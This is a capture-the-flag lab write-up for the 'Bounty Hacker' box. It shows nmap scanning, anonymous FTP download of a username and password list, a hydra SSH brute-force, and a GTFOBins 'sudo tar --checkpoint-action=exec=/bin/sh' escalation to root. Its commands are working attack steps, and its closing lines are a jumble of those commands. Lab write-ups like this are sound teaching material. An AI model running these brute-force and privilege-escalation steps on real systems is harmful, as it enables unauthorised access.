





lin, discovered sudo permission for /bin/tar, used gtfobins technique to get root shell.
I ran a full service scan with default scripts and version detection:
nmap -sV -sS -sC 10.10.16.96 -oA bounty_hackerFrom the website !:

Port/service summary from Nmap:
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.5
| ftp-syst:
| STAT:
| FTP server status:
| Connected to ::ffff:10.2.54.226
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 2
| vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 550 Permission denied.
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Key findings: FTP (21) with anonymous access, SSH (22), HTTP (80). I checked the website and it only contained an image — so I moved to FTP enumeration.
Connect and list files:
ftp 10.10.16.96
Connected to 10.10.16.96.
220 (vsFTPd 3.0.5)
Name (10.10.16.96:svfear): anonymous
Directory listing showed two interesting files:
-rw-rw-r-- 1 ftp ftp 418 Jun 07 2020 locks.txt
-rw-rw-r-- 1 ftp ftp 68 Jun 07 2020 task.txt
I downloaded both:
ftp> get locks.txt
ftp> get task.txt

Notes: task.txt contained lin (interpreted as a username) and locks.txt looked like a password wordlist — so I tried an SSH brute-force.
Used hydra with lin and the retrieved wordlist:
hydra -l lin -P locks.txt 10.10.16.96 ssh
Result: Password found — RedDr4gonSynd1cat3
Login and check files:
ssh lin@10.10.16.96
lin@ip-10-10-16-96:~/Desktop$ ls
user.txt
Obtained user.txt on the Desktop.
Check sudo permissions:
sudo -l
[sudo] password for lin:
Matching Defaults entries for lin on ip-10-10-16-96:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User lin may run the following commands on ip-10-16-96:
(root) /bin/tar
That means lin can run /bin/tar as root. I checked GTFOBins for tar and used the known technique to spawn a shell as root:
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
After that I changed directory to /root and listed files.
# cd /root
# ls
root.txt snap

Root flag located at /root/root.txt.
nmap -sV -sS -sC 10.10.16.96 -oA bounty_hackerftp 10.10.16.96
get locks.txt
get task.txthydra -l lin -P locks.txt 10.10.16.96 sshsudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh/assets/cowboyhacker/ and ensure filenames match those in the post.